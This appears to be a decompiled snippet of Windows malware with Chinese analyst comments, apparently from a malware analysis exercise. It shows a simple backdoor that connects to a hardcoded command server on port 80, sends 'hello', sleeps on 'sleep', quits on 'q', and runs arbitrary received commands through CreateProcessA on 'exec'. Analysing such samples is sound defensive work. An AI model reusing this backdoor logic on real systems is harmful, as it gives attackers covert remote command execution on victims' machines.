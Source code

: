 ```c
    if ( !OpenMutexA(0x1F0001u, 0, Name) )	//打开互斥体，如果没有就创建一个
    {
      CreateMutexA(0, 0, Name);
      if ( !WSAStartup(0x202u, &WSAData) )	//初始化winsock库
      {
        v3 = socket(2, 1, 6);	//创建tcp通信
        if ( v3 != -1 )
        {
          name.sa_family = 2;
          *&name.sa_data[2] = inet_addr(cp);
          *name.sa_data = htons(0x50u);
          if ( connect(v3, &name, 16) != -1 )
          {
            while ( 1 )
            {
              while ( 1 )
              {
                do
                {
                  if ( send(v3, ::buf, strlen(::buf), 0) == -1 || shutdown(v3, 1) == -1 )	//这个send发送了hello
                    goto LABEL_15;
                }
                while ( recv(v3, buf, 4096, 0) <= 0 );	//如果接收到sleep就睡觉60秒，如果接收到exec就接收第五个之后的值进行启动进程。
                if ( strncmp(expect_sleep, buf, 5u) )
                  break;
LABEL_10:
                Sleep(0x60000u);
              }
              if ( strncmp(expect_exec, buf, 4u) )
              {
                if ( buf[0] == 'q' )
                {
                  CloseHandle(hObject);
                  break;
                }
                goto LABEL_10;
              }
              memset(&StartupInfo, 0, sizeof(StartupInfo));
              StartupInfo.cb = 68;
              CreateProcessA(0, &buf[5], 0, 0, 1, 0x8000000u, 0, 0, &StartupInfo, &ProcessInformation);
            }
          }
LABEL_15:
          closesocket(v3);
        }
        WSACleanup();
      }
    }
  }
  return 1;
}
```
